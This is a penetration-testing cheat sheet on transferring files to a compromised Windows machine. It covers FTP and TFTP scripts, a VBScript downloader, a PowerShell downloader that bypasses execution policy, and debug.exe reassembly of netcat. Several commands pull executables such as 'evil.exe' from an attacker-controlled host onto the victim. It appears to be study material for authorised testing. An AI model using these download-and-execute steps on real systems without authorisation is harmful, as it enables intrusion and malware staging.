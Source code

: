 # Transferring Files to Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.

## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:  

**Windows XP**  

**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

Kali has a TFTP server build in.  
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

You then execute the script like this:
```
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe


### A very good resource on the same : https://blog.ropnop.com/transferring-files-from-kali-to-windows/
